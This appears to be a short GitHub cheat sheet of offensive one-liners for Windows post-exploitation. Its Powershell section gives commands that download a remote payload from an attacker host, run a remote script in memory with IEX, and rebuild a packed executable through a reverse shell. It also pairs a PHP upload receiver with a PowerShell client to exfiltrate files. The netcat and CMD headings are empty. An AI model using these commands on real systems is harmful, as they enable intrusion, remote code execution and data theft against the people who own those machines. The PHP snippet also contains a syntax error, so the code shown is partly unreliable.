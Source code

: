 # Awesome-oneliners


# Basic NC



# CMD



# Powershell
Remote payload, HTTP, File download 
-> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/file.exe','file.exe')

Remote payload, HTTP, No file download 
-> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://<IP><PORT>/script.ps1')  
  
Remote payload, Clipbord, Binary compress and rebuild 
-> upx -9 file.exe
-> exe2hex -x file.exe -p file.cmd
-> Copy the contents of file.cmd and paste in the reverse/bind shell termnial
-> Powershell rebuilds exe on the windows server
 
 Data exfil, HTTP, Upload file
 Server side - 
 <?php $uploaddir = '/var/www/uploads/'; $uploadfile = $uploaddir . $_FILES['file']['name']; move_uploaded_file($_FILES['file']['tmp_name']. $uploadfile) ?>  
 
 Client side - 
 powershell (New-Object System.Net.WebClient).UploadFile('http://<IP>/upload.php', 'file.txt') 
  
  
  
 
